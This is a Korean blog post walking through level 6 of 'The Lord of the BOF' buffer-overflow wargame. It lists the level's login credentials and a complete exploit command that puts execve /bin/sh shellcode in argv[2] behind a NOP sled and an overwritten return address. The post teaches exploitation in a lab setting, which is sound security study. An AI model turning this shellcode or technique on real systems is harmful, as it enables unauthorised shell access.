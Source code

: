 ```yaml
---
layout: post
title: "The Lord of the BOF - Level 6"
comments: true
categories: [LOB]
tags: [LOB]
---
```

<img data-action="zoom" src='{{ "assets/lob/level6/1.jpg" | relative_url }}' alt='relative'>  

## 1) wolfman/love eyuna 입력하여 로그인하기  

<img data-action="zoom" src='{{ "assets/lob/level6/2.png" | relative_url }}' alt='relative'>  

이전 level5 문제에 argv[1]의 길이를 확인하는 문제가 추가되었습니다.  

<img data-action="zoom" src='{{ "assets/lob/level6/3.png" | relative_url }}' alt='relative'>  

eggshell 방식도 사용 못 하고, buffer 배열은 0x00으로 덮어버리고 48 byte 길이 이상 입력하지 못하는 상태입니다.  

<span style='background-color:#6FE113'>그러나!! darkelf 프로그램에는 argc가 2 이상이라는 조건만 있지 2개여야 하는 조건은 없습니다.</span>  

## 2) argv[2]에 쉘코드 입력하기  

프로그램 실행시 인자를 입력할 때 띄어쓰기로 인자를 구분해줍니다.  

``` bash
./darkelf [인자1] [인자2] [인자3] ...
```

우선 darkelf 소스코드를 새로 컴파일하여 gdb로 실행 가능한 프로그램을 만들었습니다.  
만든 프로그램을 gdb로 실행하여 인자를 2개 넣어주니 아래 그림과 같이 입력한 데이터가 스택에 저장되어 있습니다.  

<img data-action="zoom" src='{{ "assets/lob/level6/4.png" | relative_url }}' alt='relative'>  

위의 정보를 바탕으로 2번째 인자에 쉘코드를 입력하고 RET에는 2번째 인자가 위치할 주소를 임의로 선택해 공격 페이로드 구성하였습니다.  
RET에 0xbffffc40 주소를 넣어보겠습니다.  

``` bash
./darkelf `python -c 'print "\x90"*44+"\x40\xfc\xff\xbf"'` `python -c 'print "\x90"*1000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

<img data-action="zoom" src='{{ "assets/lob/level6/5.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/lob/level6/6.png" | relative_url }}' alt='relative'>  